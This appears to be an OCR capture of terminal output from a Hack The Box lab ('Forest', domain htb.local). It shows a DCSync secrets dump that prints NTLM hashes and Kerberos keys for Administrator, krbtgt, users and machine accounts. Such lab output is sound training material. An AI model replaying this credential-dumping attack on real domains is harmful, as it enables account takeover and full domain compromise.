 [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
max:9602:aad3b435b51404eeaad3b435b51404ee:673903f73003b16a501666b84cd5b5b2:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:f88cc1cc5cd65ffa5e5913f523e71c7d:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
max:aes256-cts-hmac-sha1-96:25aa82b805321fc6545d7ee4b79927f1a24ab7aab8588d33e2cbc1ad38a3bca9
max:aes128-cts-hmac-sha1-96:5aba96d6b256c93a03357a7d00feb097
max:des-cbc-md5:01b51a7cdf5b02e3
FOREST$:aes256-cts-hmac-sha1-96:f8854f2d9bcba373fadd9e70667f06dc8fbbe13bab37748aafacbf3b033e0060
FOREST$:aes128-cts-hmac-sha1-96:28cbc2a0189779ca67c3877908e70898
FOREST$:des-cbc-md5:4a8649d0da2a4f8c
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
